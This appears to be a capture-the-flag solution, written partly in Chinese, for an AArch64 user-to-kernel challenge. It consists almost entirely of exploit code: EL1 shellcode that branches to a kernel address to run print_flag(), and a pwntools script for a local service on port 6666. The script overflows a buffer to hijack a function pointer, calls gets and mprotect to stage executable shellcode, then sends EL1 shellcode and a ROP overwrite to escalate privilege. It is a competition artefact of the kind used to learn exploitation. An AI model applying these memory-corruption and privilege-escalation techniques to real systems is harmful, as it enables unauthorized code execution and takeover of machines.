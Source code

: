 EL1 shellcode，目標是執行 `print_flag()`:

```asm
.section .text
.global _start

_start: 
    LDR x8, =0xFFFFFFFFC0008408
    BLR X8
    NOP
```

python script：

```python
#!/usr/bin/python3

from pwn import *

r = remote('localhost', 6666)
print_flag = 0x400104
mprotect = 0x401B68
gets = 0x4019B0
addr = 0x00007ffeffffd000 # el0 shellcode address
shellcode = 0x7ffeffffc000 # el1 shellcode address

EXEC = 4
WRITE = 2
READ = 1
input(">")

# gets(addr)
r.sendlineafter('cmd> ', '0')
r.sendlineafter('index: ', b'0'.ljust(0x100, b'\x00') + p64(gets))

sc = open('./el0', 'rb').read()
r.sendline(b'\x00'*0x30 + sc)

# mprotect(addr, 0x1000, R-X)
r.sendlineafter('cmd> ', b'1'.ljust(0x100, b'\x00') + p64(print_flag) + p64(mprotect))
r.sendlineafter('index: ', str(0x1000))
r.sendlineafter('key: ', '1'*(READ | EXEC))

# call addr
r.sendlineafter('cmd> ', '0')
r.sendlineafter('index: ', b'A'*0x100 + p64(addr + 0x30))

input('>')
el1_sc = open('./el1', 'rb').read()
r.sendline(el1_sc)

input('>')
r.send(b'\x00')

input('> write ROP')
r.send(b'A'*8 + p64(shellcode))

input('> write ret')
r.send(b'\x94')

r.interactive()
```
